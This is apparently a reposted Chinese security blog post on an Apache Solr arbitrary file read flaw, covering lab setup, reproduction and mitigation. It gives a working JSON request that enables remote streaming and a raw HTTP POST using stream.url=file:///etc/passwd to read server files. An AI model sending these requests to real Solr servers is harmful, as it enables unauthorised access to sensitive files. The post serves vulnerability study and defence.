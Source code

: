 ```yaml
---
title: 推荐系列-Apache Solr最新任意文件读取漏洞
categories: 热门文章
tags:
  - Popular
author: OSChina
top: 862
cover_picture: >-
  https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small
abbrlink: 6fd7717a
date: 2021-04-15 09:16:07
---
```


&emsp;&emsp;漏洞简介 Apache Solr是一个开源搜索服务引擎，默认安装未授权情况下攻击者可以构造恶意HTTP请求读取目标Apache Solr服务器的任意文件。 本文涉及相关实验：CVE-2019-0192 Apache Solr远程反...
<!-- more -->

                                                                                                                                                                                        漏洞简介 
Apache Solr是一个开源搜索服务引擎，默认安装未授权情况下攻击者可以构造恶意HTTP请求读取目标Apache Solr服务器的任意文件。 
本文涉及相关实验：CVE-2019-0192 Apache Solr远程反序列化代码执行漏洞（Apache Solr是一个开源的搜索服务器。具有高度可靠、可伸缩和容错的，提供分布式索引、复制和负载平衡查询、自动故障转移和恢复、集中配置等功能。） 
影响版本 
solr任意版本 
环境搭建 
漏洞环境下载： 
https://archive.apache.org/dist/lucene/solr/8.8.0/solr-8.8.0.tgz 
解压后进入bin目录，启动（需要java环境）， 
./solr start 
此时启动的solr是没有核心进行索引和搜索的，创建一个节点（核心） 
./solr create -c test 
访问：http://ip:8983可以看到创建的核心 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
实际场景下可以看到会有很多核心 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
漏洞复现 
启用远程流传输 
访问http://ip:8983/solr/test/config/抓包，将请求包修改为POST请求，修改Content-Type为“application/json”，发送以下数据： 
{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}} 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
即可开启远程流。 
读取文件 
引入远程流，将stream.url的参数的内容作为流传递。正常情况下stream.url传入的内容为“stream.url=http:/www.remotesite.com/path/to/file.pdf”,构造传入的敏感文件 
POST /solr/test/debug/dump?param=ContentStreams HTTP/1.1 
Host: 192.168.74.139:8983 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9 
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en-GB;q=0.8,en;q=0.7,en-US;q=0.6 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 29 
stream.url=file:///etc/passwd 
![Test](https://image.3001.net/images/20210401/1617262678_60657856dedf69f91e857.png!small  'Apache Solr最新任意文件读取漏洞') 
漏洞修复 
（官方不承认这是漏洞.jpg） 
因为solr默认安装情况下未授权，导致可以读取任意文件，启用Apache Solr身份验证可有效缓解该漏洞的影响 
配置访问控制策略，避免Apache Solr暴露在互联网 
参考 
https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ
                                        